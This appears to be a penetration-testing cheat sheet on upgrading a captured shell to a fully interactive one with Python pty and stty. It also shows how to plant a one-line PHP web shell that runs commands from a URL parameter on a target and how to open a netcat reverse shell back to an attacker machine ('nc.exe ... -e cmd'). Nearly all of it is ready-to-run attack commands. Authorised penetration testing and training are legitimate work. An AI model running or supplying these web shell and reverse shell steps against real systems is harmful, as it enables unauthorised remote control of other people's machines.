 ```yaml
---
description: Dummy shell to fully-interactive shell upgrade
---
```


# 😎 Fully-Interactive Shell Upgrade

## You just popped a shell...

Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

If Python3 is available:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Example syntax:

```
/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* The shell will look exactly the same or it may appear slightly differently

However, to gain full functionality do the following:

<mark style="color:yellow;">Press CTRL+Z</mark>

```
 stty raw -echo; fg
```

* <mark style="color:yellow;">Press enter a few times after this</mark>
* <mark style="color:yellow;">export TERM=xterm-256color</mark>
* Now, you will have a fully-interactive shell
* This includes tab/auto-complete
* CTRL+C
* And more

## PHP Web Shell

1. Create web shell

```
echo '<?php system($_GET["x"]);?>' > php-cmd.php
```

&#x20; 2\. Transfer to target (i.e. FTP)

&#x20; 3\. Use Netcat to connect back to your attack machine

&#x20; 4\. Transfer the nc.exe binary if it is a Windows target

&#x20; 5\. Start Netcat listener on the attack machine

```
nc -lnvp 1337
```

&#x20; 6\. Trigger reverse shell

```
nc -v <kali_ip_here> 1337

nc.exe -v <kali_ip_here> 1337 -e cmd
```
